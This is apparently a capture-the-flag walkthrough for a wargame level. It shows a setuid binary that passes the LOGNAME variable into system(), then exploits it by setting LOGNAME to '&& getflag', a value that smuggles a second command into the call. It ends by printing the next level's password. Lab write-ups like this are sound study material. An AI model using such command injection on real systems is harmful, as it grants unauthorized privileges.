

In our home directory there is an executable file level07 with uid flag07.
We can use `ltrace` to take a look at the functions called in this executable.

    ltrace ./level07

There use `getenv("LOGNAME)` and get value of this environment variable, then with `asprintf` fill a string. In conclusion `system()`
call `/bin/echo` with a parameter `level07`. Let's make sure, program print value of LOGNAME

    echo $LOGNAME
    ./level07

Yes, this is right. We can replace LOGNAME value to `getflag`.
So level07 execute with flag07 permissions, we will get password from level08.

    export LOGNAME="&& getflag"
    ./level07

We get password for level08: `fiumuikeil55xe9cu4dood66h`